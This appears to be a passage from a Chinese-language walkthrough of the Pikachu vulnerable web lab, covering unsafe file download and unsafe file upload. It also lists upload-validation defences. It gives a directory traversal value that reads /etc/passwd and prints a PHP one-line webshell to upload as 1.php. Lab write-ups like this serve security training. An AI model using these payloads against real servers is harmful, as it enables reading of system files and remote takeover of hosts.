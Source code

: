 ```
http://192.168.80.139/pikachu/vul/unsafedownload/execdownload.php?filename=ai.png
```

可以直接修改`?filename=`后面的值

可以采用目录遍历（`../../../../../../etc/passwd`）的方式，跳到根目录下面去，然后再以根目录为起点，往下做相关的读取，即完成攻击目的

# 8、Unsafe upfileupload

文件上传功能在web应用系统很常见，比如很多网站注册的时候需要上传头像、上传附件等等。当用户点击上传按钮后，后台会对上传的文件进行判断

比如是否是指定的类型、后缀名、大小等等，然后将其按照设计的格式进行重命名后存储在指定的目录。

如果说后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨，则攻击着可能会上传一些恶意的文件，比如一句话木马，从而导致后台服务器被webshell。                    

  所以，在设计文件上传功能时，一定要对传进来的文件进行严格的安全考虑。比如：

> ​					--验证文件类型、后缀名、大小;
> ​                    --验证文件的上传方式;
> ​                    --对文件进行一定复杂的重命名;
> ​                    --不要暴露文件上传后的路径;

### client check

![image-20230816202622921](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230816202622921.png)

上传一句话木马`1.php`

```php
<?php eval(@$_POST['password']);?>
```
